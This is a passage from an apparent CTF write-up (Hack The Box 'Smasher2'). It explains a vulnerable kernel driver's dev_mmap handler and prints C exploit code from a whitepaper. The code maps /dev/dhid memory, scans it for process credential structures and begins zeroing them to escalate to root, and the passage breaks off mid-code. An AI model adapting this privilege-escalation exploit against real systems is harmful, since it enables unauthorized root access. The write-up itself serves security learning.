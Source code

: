The decompiled code for `dev_mmap` right next to the whitepaper code example:

![](/assets/images/htb-writeup-smasher2/kernel3.png)

The whitepaper contains an exploit code that search the memory space for credential structures then modify it to give root access.

```c
#include<stdio.h>
#include<stdlib.h>
#include<errno.h>
#include <sys/mman.h>
#include<fcntl.h>
#include<string.h>
#include<unistd.h>
#include <pthread.h>

int main(int argc, char * const * argv)
{
	printf("[+] PID: %d\n", getpid());
	int fd = open("/dev/dhid", O_RDWR);
	if (fd < 0)
	{
		printf("[-] Open failed!\n");
		return -1;
	}
	printf("[+] Open OK fd: %d\n", fd);
	unsigned long size = 0xf0000000;
	unsigned long mmapStart = 0x42424000;
	unsigned int * addr = (unsigned int *)mmap((void*)mmapStart, size, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0x0);
	if (addr == MAP_FAILED)
	{
		perror("Failed to mmap: ");
		close(fd);
		return -1;
	}
	printf("[+] mmap OK addr: %lx\n", addr);
	
	unsigned int uid = getuid();
	printf("[+] UID: %d\n", uid);
	unsigned int credIt = 0;
	unsigned int credNum = 0;
	while (((unsigned long)addr) < (mmapStart + size - 0x40))
	{
		credIt = 0;
		if (
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid &&
		addr[credIt++] == uid
		)
		{
			credNum++;
			printf("[+] Found cred structure! ptr: %p, credNum: %d\n", addr, credNum);
			credIt = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
			addr[credIt++] = 0;
```